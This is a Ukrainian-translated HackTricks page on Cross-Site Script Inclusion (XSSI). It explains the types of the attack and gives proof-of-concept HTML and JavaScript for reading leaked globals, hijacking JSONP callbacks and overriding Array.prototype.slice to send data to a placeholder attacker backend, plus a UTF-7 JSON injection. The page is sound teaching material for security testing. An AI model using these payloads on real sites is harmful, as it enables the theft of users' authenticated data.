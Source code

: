 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** — це вразливість, яка виникає через природу тегу `script` в HTML. На відміну від більшості ресурсів, які підлягають **Політиці одного походження (SOP)**, скрипти можуть бути включені з різних доменів. Ця поведінка призначена для полегшення використання бібліотек та інших ресурсів, розміщених на різних серверах, але також вводить потенційний ризик безпеки.

### Key Characteristics of **XSSI**:
- **Обхід SOP**: Скрипти звільнені від **Політики одного походження**, що дозволяє їх включення між доменами.
- **Витік даних**: Зловмисник може використати цю поведінку для читання даних, завантажених через тег `script`.
- **Вплив на динамічний JavaScript/JSONP**: **XSSI** особливо актуальний для динамічного JavaScript або **JSON з доповненням (JSONP)**. Ці технології часто використовують інформацію "ambient-authority" (таку як куки) для аутентифікації. Коли запит скрипта надсилається на інший хост, ці облікові дані (наприклад, куки) автоматично включаються в запит.
- **Витік токена аутентифікації**: Якщо зловмисник може змусити браузер користувача надіслати запит на скрипт з сервера, який він контролює, він може отримати доступ до чутливої інформації, що міститься в цих запитах.

### Types

1. **Статичний JavaScript** - Це представляє собою звичайну форму XSSI.
2. **Статичний JavaScript з аутентифікацією** - Цей тип відрізняється тим, що вимагає аутентифікації для доступу.
3. **Динамічний JavaScript** - Включає JavaScript, який динамічно генерує контент.
4. **Не-JavaScript** - Відноситься до вразливостей, які не пов'язані безпосередньо з JavaScript.

**Наступна інформація є резюме [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Перевірте її для отримання додаткових деталей.


### Regular XSSI
У цьому підході приватна інформація вбудована в глобально доступний JavaScript файл. Зловмисники можуть виявити ці файли, використовуючи методи, такі як читання файлів, пошук за ключовими словами або регулярні вирази. Після знаходження скрипт, що містить приватну інформацію, може бути включений у шкідливий контент, що дозволяє несанкціонований доступ до чутливих даних. Приклад техніки експлуатації показано нижче:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Ці типи атак XSSI передбачають динамічне додавання конфіденційної інформації до скрипту у відповідь на запит користувача. Виявлення може бути виконано шляхом надсилання запитів з і без куків та порівняння відповідей. Якщо інформація відрізняється, це може вказувати на наявність конфіденційної інформації. Цей процес можна автоматизувати за допомогою інструментів, таких як [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) розширення Burp.

Якщо конфіденційні дані зберігаються в глобальній змінній, їх можна експлуатувати, використовуючи подібні методи до тих, що використовуються в Regular XSSI. Однак, якщо конфіденційні дані включені у відповідь JSONP, зловмисники можуть перехопити функцію зворотного виклику, щоб отримати інформацію. Це можна зробити, маніпулюючи глобальними об'єктами або налаштувавши функцію, яка буде виконана відповіддю JSONP, як показано нижче:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Для змінних, які не знаходяться в глобальному просторі імен, *підробка прототипу* іноді може бути використана. Ця техніка використовує дизайн JavaScript, де інтерпретація коду передбачає проходження по ланцюгу прототипів для знаходження викликаної властивості. Перезаписуючи певні функції, такі як `Array`'s `slice`, зловмисники можуть отримати доступ до не-глобальних змінних і витікати їх:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Додаткову інформацію про вектори атак можна знайти в роботі дослідника безпеки [Sebastian Lekies](https://twitter.com/slekies), який веде список [векторів](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Дослідження Такеші Теради вводить ще одну форму XSSI, де файли Non-Script, такі як CSV, витікають між джерелами, будучи включеними як джерела в тег `script`. Історичні випадки XSSI, такі як атака Джеремії Гроссмана 2006 року для читання повного адресного довідника Google та витік даних JSON Джо Уокера 2007 року, підкреслюють серйозність цих загроз. Крім того, Гарет Хейс описує варіант атаки, що включає закодований у UTF-7 JSON для виходу з формату JSON та виконання скриптів, ефективний у певних браузерах:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
